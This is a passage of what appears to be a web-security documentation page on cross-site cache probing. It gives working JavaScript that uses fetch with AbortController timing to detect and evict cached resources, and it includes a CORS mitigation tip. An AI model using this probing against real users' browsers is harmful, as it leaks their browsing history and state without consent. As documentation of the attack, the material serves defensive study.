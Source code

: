 ```javascript
}

// This makes sense only if the attacker already knows that
// server.com suffers from origin reflection CORS misconfiguration.
var resource_url = "server.com/reflected_origin_resource.html"
var verdict = await ifCached(resource_url)
console.log("Resource was cached: " + verdict)
```

{{< hint tip >}}
The best way to mitigate this is to avoid origin reflection and use the header `Access-Control-Allow-Origin: *` for globally accessible and unauthenticated resources.
{{< /hint >}}

## Fetch with AbortController

The below snippet shows how the [`AbortController`](https://developer.mozilla.org/en-US/docs/Web/API/AbortController) interface could be combined with *fetch* and *setTimeout* to both detect whether the resource is cached and to evict a specific resource from the browser cache. A nice feature of this technique is that the probing occurs without caching new content in the process.
```javascript
async function ifCached(url, purge = false) {
    var controller = new AbortController();
    var signal = controller.signal;
    // After 9ms, abort the request (before the request was finished).
    // The timeout might need to be adjusted for the attack to work properly.
    // Purging content seems to take slightly less time than probing
    var wait_time = (purge) ? 3 : 9;
    var timeout = await setTimeout(() => {
        controller.abort();
    }, wait_time);
    try {
        // credentials option is needed for Firefox
        let options = {
            mode: "no-cors",
            credentials: "include",
            signal: signal
        };
        // If the option "cache: reload" is set, the browser will purge
        // the resource from the browser cache
        if(purge) options.cache = "reload";

        await fetch(url, options);
    } catch (err) {
        // When controller.abort() is called, the fetch will throw an Exception
        if(purge) console.log("The resource was purged from the cache");
        else console.log("The resource is not cached");
        return false
    }
    // clearTimeout will only be called if this line was reached in less than
    // wait_time which means that the resource must have arrived from the cache
    clearTimeout(timeout);
    console.log("The resource is cached");

    return true;
}

// purge https://example.org from the cache
await ifCached('https://example.org', true);

// Put https://example.org into the cache
// Skip this step to simulate a case where example.org is not cached
open('https://example.org');
```